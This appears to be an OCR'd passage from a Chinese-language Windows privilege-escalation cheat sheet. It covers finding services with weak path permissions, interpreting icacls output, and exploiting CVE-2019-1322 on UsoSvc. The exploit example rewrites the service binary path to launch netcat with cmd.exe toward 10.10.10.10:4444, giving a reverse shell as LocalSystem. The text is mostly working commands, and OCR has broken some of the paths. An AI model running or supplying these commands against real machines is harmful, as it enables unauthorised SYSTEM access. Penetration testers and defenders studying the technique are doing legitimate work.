   ```powershell
      return TRUE;
  }
  ```

- 路径目录权限弱

  ```powershell
  $ for /f "tokens=2 delims='='" %a in ('wmic service list full^|find /i "pathname"^|find /i /v "system32"') do @echo %a >> c:\windows\temp\permissions.txt
  $ for /f eol^=^"^ delims^=^" %a in (c:\windows\temp\permissions.txt) do cmd.exe /c icacls "%a"
  
  $ sc query state=all | findstr "SERVICE_NAME:" >> Servicenames.txt
  FOR /F %i in (Servicenames.txt) DO echo %i
  type Servicenames.txt
  FOR /F "tokens=2 delims= " %i in (Servicenames.txt) DO @echo %i >> services.txt
  FOR /F %i in (services.txt) DO @sc qc %i | findstr "BINARY_PATH_NAME" >> path.txt
  ```

或者您可以使用Metasploit漏洞利用：`exploit/windows/local/service_permissions`

注意要检查文件权限，您可以使用`cacls`和`icacls`

> icacls (Windows Vista +)
> cacls (Windows XP)

您正在寻找输出中的`BUILTIN\Users:(F)`（完全访问权限），`BUILTIN\Users:(M)`（修改访问权限）或`BUILTIN\Users:(W)`（仅写入访问权限）。

### 示例与Windows 10 - CVE-2019-1322 UsoSvc

先决条件：服务帐户

```powershell
PS C:\Windows\system32> sc.exe stop UsoSvc
PS C:\Windows\system32> sc.exe config usosvc binPath="C:\Windows\System32\spool\drivers\color
c.exe 10.10.10.10 4444 -e cmd.exe"
PS C:\Windows\system32> sc.exe config UsoSvc binpath= "C:\Users\mssql-svc\Desktop
c.exe 10.10.10.10 4444 -e cmd.exe"
PS C:\Windows\system32> sc.exe config UsoSvc binpath= "cmd /C C:\Users
c.exe 10.10.10.10 4444 -e cmd.exe"
PS C:\Windows\system32> sc.exe qc usosvc
[SC] QueryServiceConfig SUCCESS

SERVICE_NAME: usosvc
        TYPE               : 20  WIN32_SHARE_PROCESS 
        START_TYPE         : 2   AUTO_START  (DELAYED)
        ERROR_CONTROL      : 1   NORMAL
        BINARY_PATH_NAME   : C:\Users\mssql-svc\Desktop
c.exe 10.10.10.10 4444 -e cmd.exe
        LOAD_ORDER_GROUP   : 
        TAG                : 0
        DISPLAY_NAME       : Update Orchestrator Service
        DEPENDENCIES       : rpcss
        SERVICE_START_NAME : LocalSystem

PS C:\Windows\system32> sc.exe start UsoSvc
```
